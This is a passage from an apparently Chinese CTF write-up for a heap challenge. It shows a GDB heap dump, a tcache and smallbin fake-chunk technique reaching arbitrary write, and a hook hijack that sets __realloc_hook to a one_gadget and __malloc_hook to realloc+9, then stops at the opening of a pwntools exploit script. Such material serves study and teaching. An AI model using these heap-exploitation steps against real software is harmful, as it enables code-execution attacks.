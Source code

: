 调试可知：

```
gef➤  x/64gx 0x7fc984777c40+96
0x7fc984777ca0 <main_arena+96>:	0x616853206b6c694d	0x000000000000656b
0x7fc984777cb0 <main_arena+112>:	0x0000556633372250	0x0000556633372250
0x7fc984777cc0 <main_arena+128>:	0x00007fc984777cb0	0x00007fc984777cb0 # 
0x7fc984777cd0 <main_arena+144>:	0x00007fc984777cc0	0x00007fc984777cc0 # 
0x7fc984777ce0 <main_arena+160>:	0x00007fc984777cd0	0x00007fc984777cd0 # 这0x30个字节保持原样
0x7fc984777cf0 <main_arena+176>:	0x00005566333723a0	0x00005566333723a0 # smallbin[4]，指向fake chunk
0x7fc984777d00 <main_arena+192>:	0x00007fc984777cf0	0x00007fc984777cf0
0x7fc984777d10 <main_arena+208>:	0x00007fc984777d00	0x00007fc984777d00
0x7fc984777d20 <main_arena+224>:	0x00007fc984777d10	0x00007fc984777d10
0x7fc984777d30 <main_arena+240>:	0x00007fc984777d20	0x00007fc984777d20
0x7fc984777d40 <main_arena+256>:	0x00007fc984777d30	0x00007fc984777d30
0x7fc984777d50 <main_arena+272>:	0x0000000000000010	0x00007fc984777d40 # 写入size 0x10
0x7fc984777d60 <main_arena+288>:	0x00007fc984777d50	0x00007fc984777d50
0x7fc984777d70 <main_arena+304>:	0x00007fc984777d60	0x00007fc984777d60

```

让我们回忆一下CTF Wiki中的tcache机制讲解。

> （1）首先，申请的内存块符合 fastbin 大小时并且找到在 fastbin 内找到可用的空闲块时，会把该 fastbin 链上的其他内存块放入 tcache 中。
>
> （2）其次，申请的内存块符合 smallbin 大小时并且找到在 smallbin 内找到可用的空闲块时，会把该 smallbin 链上的其他内存块放入 tcache 中。
>
> （3）当在 unsorted bin 链上循环处理时，当找到大小合适的链时，并不直接返回，而是先放到 tcache 中，继续处理。

所以下次分配0x40时，会分配到fake chunk处（先放入tcache，再从tcache中取），溢出chunk3。而chunk3原本在tcache中，所以可以直接写tcache的next指针，下下次分配0x50的时候分配到任意地址，最终实现任意地址写

#### Hijacking

本题还有第二个难点，就是在劫持控制流的时候有一个大坑。

一般来说，我们会选择覆盖`malloc_hook`或者`free_hook`。本题我们如果选择劫持`__malloc_hook`为one_shot，会发现三个约束条件都不能满足。这时我们一般会想到覆盖`__free_hook`，但是由于`__free_hook`前方是与IO相关的关键数据结构，而我们不得不写入0x20的垃圾字节，这会使得控制流劫持同样失败。

最后还是参考大师傅们的骚操作：选择将`__realloc_hook`覆盖为one_shot，将`__malloc_hook`覆盖为`realloc+9`（跳过函数初始化一堆可能影响栈布局和控制流的push操作）。这样在调用malloc时，会跳转到realloc，而又会再劫持到realloc_hook。同时，这两个的地址在libc上相邻，方便写入。

完整exp如下：

```python
from pwn import *

#context.log_level = 'debug'

p = process('./amazon')
#p=remote("121.41.38.38",9999)
libc=ELF("./libc-2.27.so")

def g(p,data=False):
    gdb.attach(p,data)
    raw_input()

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def rl():
```